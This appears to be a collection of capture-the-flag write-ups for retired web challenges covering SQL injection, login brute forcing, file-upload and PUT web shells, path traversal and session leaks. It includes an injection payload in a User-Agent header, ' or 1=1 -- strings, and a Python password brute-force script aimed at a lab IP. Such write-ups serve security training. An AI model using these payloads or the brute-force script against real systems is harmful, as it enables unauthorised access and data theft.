# Web retired

## Baby Logger Middleware

in this challenge is `sqlite injection` vulnerability, first we need to find a place to inject the `payload`, I initially tried adding `HACKER_WAS_HERE` value to `X-Forwarded-For` tag but it was pointless, this is what we need to `inject` into `database`, after looking through I saw that there are `User-Agen` fields and below it will be displayed on web, accordingly I tried to insert through `User-Agent`



We see that it will display the details of a whole statement, so what if we use its parentheses as well?



surprisingly it is also added to create command, and we can also see there is a field that is `None`, so in general we can inject as we like, the fields include `INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at)`, accordingly I added a line below the value `ip_address=HACKER_WAS_HERE`

```shell
User-Agent: a','1','1','1','2025-07-16 15:18:24'),('HACKER_WAS_HERE','a','a','a','a', '2025-07-16 15:18:24'); --
```



---

## Username Enumeration via Different Responses

in this challenge we just need to use burpsuite to bruteforce to find the correct password, or we can use ffuf, I choose to write a `script`

`script`

```python
import requests

URL = "http://103.97.125.56:30720/login"

with open("password.txt", "r") as file:
    passwords = file.readlines()

header = {
    "Content-Type": 'application/x-www-form-urlencoded',
    'Cookie': 'PHPSESSID=0b984v83n5fd9rre9sq9pptef8'
}

data = {
    "username": "admin",
    "password": f""
}

for password in passwords:
    password = password.strip()
    data["password"] = password
    response = requests.post(URL, headers=header, data=data)

    if "wrong password" not in response.text.lower():
        print(f"Password found: {password}")
        print(f"Response: {response.text}")
        break
#Flag: CHH{enumerATE_un5ERNaME_881f8f6b4c97f57af721891950853888} -- password: iloveyou
```




---

## Flawed file type validation

In this challenge is about `fileupload vulnerability`, this vulnerability also has many ways to exploit, through the description and name, here we need to upload code to execute remotely and get the `flag`, but check the code returned from the server, the system will check the MIME file to see if it is an `image`, if not then it will not allow upload
- initially I uploaded a valid image and proceeded to modify it in `Burp Reapeator`








Here I will edit the file to `web shell php` and keep the `Content-Type` the same, note to be sure, change the file name for easy manipulation.



Next just `access` and `exploit`









---

## Baby OS Path

When downloading the source code we can see that according to the system what we enter will be in `static`, we will need to move out of the folder 2 times to get to `/`

```shell
.
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── run.py
│   ├── settings.py
│   └── statics
│       ├── index.html
│       ├── post-20221123-1500.txt
│       ├── post-20221123-1800.txt
│       └── robots.txt
├── config
│   └── supervisord.conf
└── flag.txt

3 directories, 10 files
```




---

## Password Disclosure

`source`

```python
import sqlite3
from flask import Flask, render_template, Response, request, g, session, redirect
import os
import random
import string

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)
FLAG = open("/flag.txt", "r").read()
DATABASE = "data.db"


def get_random_string(length):
    # choose from all lowercase letter
    letters = string.ascii_lowercase
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db


def init_users_table():
    # Create a new SQLite database
    conn = get_db()

    # Create a table in the database
    conn.execute('''CREATE TABLE users
                 (id INTEGER PRIMARY KEY AUTOINCREMENT,
                 username TEXT NOT NULL,
                 password TEXT NOT NULL,
                 description TEXT
                 );''')

    # Insert some sample data into the table
    conn.execute("INSERT INTO users (username, password, description) VALUES (?, ?, ?)",
                 ('admin', get_random_string(30), f"{FLAG}"))
    conn.execute(
        "INSERT INTO users (username, password) VALUES (?, ?)", ('dog', "bowwow"))
    conn.execute(
        "INSERT INTO users (username, password) VALUES (?, ?)", ('cat', 'meow'))
    conn.execute(
        "INSERT INTO users (username, password) VALUES (?, ?)", ('guest', 'guest'))

    # Commit the changes
    conn.commit()


@app.before_first_request
def init_db():
    init_users_table()


@app.route('/')
def index():
    return render_template('welcome.jinja2',
                           title="challenge-name-web-python",
                           description="challenge-name-web-python")


@app.route('/heath')
def heath():
    return "OK"


@app.route('/login', methods=['GET', 'POST'])
def login_sql():
    conn = get_db()
    if request.method == "GET":
        return render_template("login.jinja2")
    elif request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        query = 'SELECT * FROM users WHERE username=? AND password=?'

        account = conn.execute(query, (username, password)).fetchone()
        if not account:
            return render_template("login.jinja2", popup_message="'Login failed. Please try again.'")

        session["username"] = username
        session["description"] = account["description"]
        return redirect("/account")


@app.route("/account", methods=["GET"])
def account():
    return render_template("account.jinja2")


@app.route("/reset_password", methods=["GET", "POST"])
def reset_password():
    if request.method == "GET":
        username = request.args.get("username", session.get("username"))
        if not username:
            return redirect("/login")

        conn = get_db()
        user = conn.execute(
            """
                SELECT *
                FROM users
                WHERE username = ?        
            """,
            (username,)
        ).fetchone()
        return render_template("reset_password.jinja2", username=username, password=user["password"])
    if request.method == "POST":
        username = session.get("username")
        if not username:
            return "Not login yet"
        new_password = request.form["new_password"]

        conn = get_db()
        conn.execute(
            """
                UPDATE users
                SET password = ?
                WHERE username = ?
            """,
            (new_password, username)
        )

        return "Update success"


@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=False)
```

we can see the system creates a `users` table and inserts information into it, `FLAG` will be in admin, but the admin `password` is `random 30 characters`, so there is no possibility of bruteforce, the next endpoints are not important, pay attention to `/reset_password`, here there will be 2 request methods:
- `GET`: check user, if there is, all information will be displayed
- `POST`: check user from session, if possible, the `password` can be reset, but it is difficult because we do not know the `secret_key`, I have not found a way to make the system error and display the key, but just `GET` we can get the password



password is `xicsqzlbneqxqatlxeapnfbanznswq`

after login we can get `flag`



---

## Hello Session

in this challenge has clearly mentioned about `session`, we can see that when the system starts, it will create a random session for `admin`, but there is a vulnerability in manager that returns all session `storage`, accordingly we just need to go to `/manager` and use it to log in





---

## SQL injection vulnerability in WHERE clause

in this challenge is a simple challenge with `sql injection` vulnerability, according to which we just need to use `' or 1=1 --` or `flag' or 1=1 --`



---

## Simple SQLi

`run.py`

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('/flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute(
        'create table users(userid char(100), userpassword char(100), userlevel integer);')
    db.execute(
        f'insert into users(userid, userpassword, userlevel) values ("guest", "guest", 0), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}", 0);')
    db.commit()
    db.close()


def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db
    

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()


@app.route('/')
def index():
    return render_template('welcome.jinja2', text="Welcome to SQL Injection Challenge")


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.jinja2')
    else:
        userlevel = request.form.get('userlevel')
        res = query_db(f"select * from users where userlevel='{userlevel}'")
        if res:
            userid = res[0]
            userlevel = res[2]
            if userid == 'admin' and userlevel == 0:
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'


app.run(host='0.0.0.0', port=1337)
```

according to the code we can see that the first line is `guest`, then the next line is `admin`, if we only enter `0` it will return the first line `first`
so it will always be `guest`, let's look at the query `query_db(f"select * from users where userlevel='{userlevel}'")`, here we can take advantage to add the condition `admin` to get information





---

## File upload via PUT method

In this challenge, since `PUT` has been activated without input checking, we can create files into the system naturally. Let's try it.



Now try adding some content and using `PUT` to submit it.



`HTTP/1.1 204 No Content` error indicates that the server will not return any content, try `GET` to see



So the content has been added to the system as usual without any barriers, let's continue to create `webshell`



This time it was reported created successfully, so it's done.







---

## Path Traversal

`run.py`
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, abort
from functools import wraps
import requests
import os, json

users = {
    '0': {
        'userid': 'guest',
        'level': 1,
        'password': 'guest'
    },
    '1': {
        'userid': 'admin',
        'level': 9999,
        'password': 'admin'
    }
}

def internal_api(func):
    @wraps(func)
    def decorated_view(*args, **kwargs):
        if request.remote_addr == '127.0.0.1':
            return func(*args, **kwargs)
        else:
            abort(401)
    return decorated_view

app = Flask(__name__)
app.secret_key = os.urandom(32)
API_HOST = 'http://127.0.0.1:1337'

try:
    FLAG = open('/flag.txt', 'r').read() # Flag is here!!
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.jinja2')

@app.route('/get_info', methods=['GET', 'POST'])
def get_info():
    if request.method == 'GET':
        return render_template('get_info.jinja2')
    elif request.method == 'POST':
        userid = request.form.get('userid', '')
        info = requests.get(f'{API_HOST}/api/user/{userid}').text
        return render_template('get_info.jinja2', info=info)

@app.route('/api')
@internal_api   
def api():
    return '/user/<uid>, /flag'

@app.route('/api/user/<uid>')
@internal_api
def get_flag(uid):
    try:
        info = users[uid]
    except:
        info = {}
    return json.dumps(info)

@app.route('/api/flag')
@internal_api
def flag():
    return FLAG

@app.errorhandler(404)
def page_not_found(e):
    # note that we set the 404 status explicitly
    return render_template('404.jinja2'), 404

application = app
app.run(host='0.0.0.0', port=1337)
# Dockerfile
#     ENTRYPOINT ["uwsgi", "--socket", "0.0.0.0:8000", "--protocol=http", "--threads", "4", "--wsgi-file", "app.py"]
```

From the system code, we can see that we can query user information via `/get_info`, if it is `GET`, it will return the information immediately, if it is `POST`, the system will send requests to `requests.get(f'{API_HOST}/api/user/{userid}`, and `userid` is the field we enter, But look again, `FLAG` is at `/api/flag`, so the vulnerability is in the `userid` we enter, exploit `pathtraversal` here to return to `/api/flag`



---

## Duplicate Content

In this challenge we see that if we log in as `guest`, we only see `title 4` with data. If we try other ids, the returned status code is `404` or `500`. Accordingly, if we click clone, we can clone the `blog` at the id using the `id` parameter. Try with other `ids` to clone indirectly.







---

